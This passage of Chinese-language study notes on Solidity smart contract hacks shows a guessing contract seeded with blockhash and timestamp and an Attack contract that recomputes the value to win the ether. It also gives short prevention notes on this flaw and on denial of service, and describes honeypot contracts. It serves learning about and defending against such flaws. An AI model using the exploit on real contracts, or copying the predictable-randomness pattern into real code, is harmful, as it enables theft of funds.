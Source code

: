 ``` solidity
    constructor() payable {}

    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}

contract Attack {
    receive() external payable {}

    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        guessTheRandomNumber.guess(answer);
    }

    // Helper function to check balance
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
### 預防機制
blockhash 跟 block.timestamp 不要拿來當亂數種子

[chainlink VRF](https://docs.chain.link/docs/chainlink-vrf/)
![](https://i.imgur.com/aUzZR9L.png)


## Denial of Service
https://solidity-by-example.org/hacks/denial-of-service/

[KingOfEther](https://www.kingoftheether.com/thrones/kingoftheether/index.html#WhoMonarch)
### 預防機制
不要直接從合約送錢出去
改成 claim 


---
# 7/9 Honeypot 分享
## Honeypot contract 蜜罐合約
蜜罐合約是一種特殊類型的智能合約，它在合約設計上看似有明顯的缺陷，如果用戶向合約中轉移了一定數量的資金，那麼該用戶就可以提取合約中的資金。然而，一旦用戶嘗試利用這個看似明顯的缺陷，就會陷入真正的陷阱之中，導致用戶投入合約中的資金無法取回。[1]
![](https://i.imgur.com/UOSn5Tr.png)
